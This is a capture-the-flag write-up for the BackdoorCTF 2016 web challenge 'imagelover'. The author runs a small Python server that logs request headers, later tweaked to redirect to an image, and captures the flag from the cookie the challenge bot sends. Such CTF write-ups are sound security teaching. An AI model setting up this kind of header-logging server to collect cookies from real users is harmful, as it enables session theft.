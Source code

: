 ```yaml
---
title: "BackdoorCTF 2016 - imagelover"
layout: post
date: 2016-05-30 4:21
tag:
- BackdoorCTF2016
- Web
- Backdoor
writeup: true
star: false
points: 70
category: Web
---
```


![Backdoor Logo](/assets/images/backdoorctf16/logo.png)

**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 70

#### Description:

>Find imagelover [here](http://hack.bckdr.in:6969/)

## Write-up

**The challenge was updated. Scroll down to see the updates solution**

When I went to the specified website it said:

>Imagelover loves viewing pictures of people. He has opened this website so that you can share your pics with him. Imagelover visits the image with his flag as a sign of gratitude.

There was a URL box to add our link to photos. So it said "Imagelover visits the image with his `flag`". The only way to do this would be to send a GET request to the website we enter and send the flag in the Headers. So I googled and found this script to print the Headers of anyone who sends a GET request to my VPS.

~~~python
import SimpleHTTPServer
import SocketServer
import logging

PORT = 8000

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
~~~

`**Update_begin**`

So now they don't give us the flag until we return them a `png`, `jpg` or a `gif`. So I decided to redirect them to an image. For this I made some chanegs in the `do_GET()` method. Here is the updated method.

~~~python
   def do_GET(self):
        logging.error(self.headers)
        self.send_response(301) # For a redirect we need to send a `301` response rather than `200`
        self.send_header('Location','link.to.an/image') # Add a link to an image in place of `lin.to.an/image`
        self.end_headers()
~~~

`**Update_end**`

Basically I hosted my VPS with the script above and entered the URL in place of a photograph URL. Imagelover would visit it and I would get the flag from the Headers.

And as expeced as soon as I submitted my URL I got a GET request with the flag in the cookie.
